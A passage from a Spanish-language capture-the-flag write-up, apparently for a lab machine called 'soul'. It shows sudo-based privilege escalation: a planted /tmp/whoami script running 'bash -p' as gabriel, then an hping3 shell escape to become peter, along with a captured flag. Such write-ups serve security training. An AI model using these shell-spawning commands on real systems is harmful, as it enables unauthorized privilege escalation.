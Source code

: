 Veremos que podemos ejecutar el binario `whoami` como el usuario `gabriel` pero el binario esta en `/tmp` por lo que vamos a dicha carpeta.

Si vamos a `/tmp` veremos que no esta el binario, por lo que podremos crearlo y meter lo que queramos.

```shell
nano /tmp/whoami

#Dentro del nano
#!/bin/bash

bash -p
```

Lo guardamos y ahora lo ejecutaremo de la siguiente forma:

```shell
chmod +x /tmp/whoami
sudo -u gabriel /tmp/whoami
```

Info:

```
gabriel@soul:/tmp$ whoami
gabriel
```

Veremos que ha funcionado, por lo que leeremos la `flag` del usuario.

> user.txt

```
HMViwazhere
```

## Escalate user peter

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for gabriel on soul:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gabriel may run the following commands on soul:
    (peter) NOPASSWD: /usr/sbin/hping3
```

Veremos que podemos ejecutar el binario `/usr/sbin/hping3` como el usuario `peter`, por lo que haremos lo siguiente:

```shell
sudo -u peter hping3
/bin/bash
```

Info:
